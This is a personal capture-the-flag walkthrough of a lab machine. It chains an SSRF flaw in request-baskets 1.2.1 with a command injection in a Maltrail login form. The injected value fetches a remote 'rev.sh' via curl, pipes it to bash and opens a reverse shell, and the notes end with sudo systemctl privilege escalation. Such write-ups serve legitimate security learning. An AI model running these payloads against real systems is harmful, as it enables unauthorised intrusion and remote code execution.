 nmap -sV -sC 10.10.11.224
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 00:18 EDT
Nmap scan report for 10.10.11.224
Host is up (0.73s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa8867d7133d083a8ace9dc4ddf3e1ed (RSA)
|   256 ec2eb105872a0c7db149876495dc8a21 (ECDSA)
|_  256 b30c47fba2f212ccce0b58820e504336 (ED25519)
80/tcp    filtered http
55555/tcp open     unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Tue, 11 Jul 2023 04:20:18 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, Kerberos, LDAPSearchReq, LPDString, RTSPRequest, SSLSessionReq, TLSSessionReq, TerminalServerCookie: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Tue, 11 Jul 2023 04:19:34 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Tue, 11 Jul 2023 04:19:37 GMT
|_    Content-Length: 0
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.93%I=7%D=7/11%Time=64ACD857%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:34\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Tue,\x2011\x20Jul\x20
SF:2023\x2004:19:37\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(TerminalServerCookie,67,"HTTP/1\.1\x20400\
SF:x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nC
SF:onnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(TLSSessionReq,67,"
SF:HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20c
SF:harset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(K
SF:erberos,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text
SF:/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20R
SF:equest")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20Bad\x20Request\r\n
SF:Content-Type:\x20text/plain;\x20charset=utf-8\r\nX-Content-Type-Options
SF::\x20nosniff\r\nDate:\x20Tue,\x2011\x20Jul\x202023\x2004:20:18\x20GMT\r
SF:\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20name;\x20the\x20nam
SF:e\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\-_\\\.\]{1,250}\$\
SF:n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:
SF:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20
SF:Bad\x20Request")%r(LDAPSearchReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request
SF:\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20clo
SF:se\r\n\r\n400\x20Bad\x20Request");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 204.05 seconds

`http://10.10.11.224:55555/lala`

It has a basket application which tells us about headers
![](20230711003354.png)

curl -A "<script>alert(1)</script>" http://10.10.11.224:55555/lala

does not have an xss injection

![](20230711003927.png)

There is forwarding URL as well

see the version of request baskets

Powered by request-baskets | Version: 1.2.1 

request-baskets up to v1.2.1 was discovered to contain a Server-Side Request Forgery (SSRF) via the component /api/baskets/{name}. This vulnerability allows attackers to access network resources and sensitive information via a crafted API request.

 For example, consider a shopping application that lets the user view whether an item is in stock in a particular store. To provide the stock information, the application must query various back-end REST APIs, dependent on the product and store in question. The function is implemented by passing the URL to the relevant back-end API endpoint via a front-end HTTP request. So when a user views the stock status for an item, their browser makes a request like this:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://stock.weliketoshop.net:8080/product/stock/check%3FproductId%3D6%26storeId%3D1

This causes the server to make a request to the specified URL, retrieve the stock status, and return this to the user.

In this situation, an attacker can modify the request to specify a URL local to the server itself. For example:
POST /product/stock HTTP/1.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 118

stockApi=http://localhost/admin

Here, the server will fetch the contents of the /admin URL and return it to the user.

Now of course, the attacker could just visit the /admin URL directly. But the administrative functionality is ordinarily accessible only to suitable authenticated users. So an attacker who simply visits the URL directly won't see anything of interest. However, when the request to the /admin URL comes from the local machine itself, the normal access controls are bypassed. The application grants full access to the administrative functionality, because the request appears to originate from a trusted location. 

https://portswigger.net/web-security/ssrf


https://notes.sjtu.edu.cn/s/MUUhEymt7

POC: POST /api/baskets/{name} API with payload - {"forward_url": "http://127.0.0.1:80/test","proxy_response": false,"insecure_tls": false,"expand_path": true,"capacity": 250}

when setting up a forwarder

![](20230717005846.png)

setting up a netcat

nc -lvp 443

![](20230717005917.png)

now moving on to exploitation

we enable the proxy response

![](20230717010723.png)

not able ot connect

![](20230717010734.png)

maybe if i tried a curl request

```
curl --location 'http://10.10.11.224:55555/api/baskets/yesterday' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/login", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

{"token":"9-CSIiJmEZBEMan8Kpzph1ruRwOiAC-nR5c90XUldVpL"}  
```

mahesh
2hH3GujPIaU7uH8OFm1jZVQhYpKmBpiqRAuFhx2_NSfR

 curl --location 'http://10.10.11.224:55555/api/baskets/mahesh1' --header 'Content-Type: application/json' --data '{"forward_url": "http://127.0.0.1:80/", "proxy_response": true, "insecure_tls": false, "expand_path": true, "capacity": 250}'

{"token":"5pp6-6PMN7WkQs6_GIMtWxI_6Bgcvt6f2O2rZnDirLiW"}        

![](20230717022747.png)

command injection in mailtrail

```
curl 'http://10.10.11.224:55555/mahesh1/login'  --data 'username=;`curl 10.10.16.47:8000/rev.sh|bash`'
```

rev.sh connects to 1337 

so starting a server 

nc -lvp 1337

and i got a shell

![](20230717024925.png)

on sudo -l :

 (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

find / -user puma -ls 2>/dev/null

# privilege escalation


script /dev/null /bin/bash

sudo /usr/bin/systemctl status trail.service

![](20230717030603.png)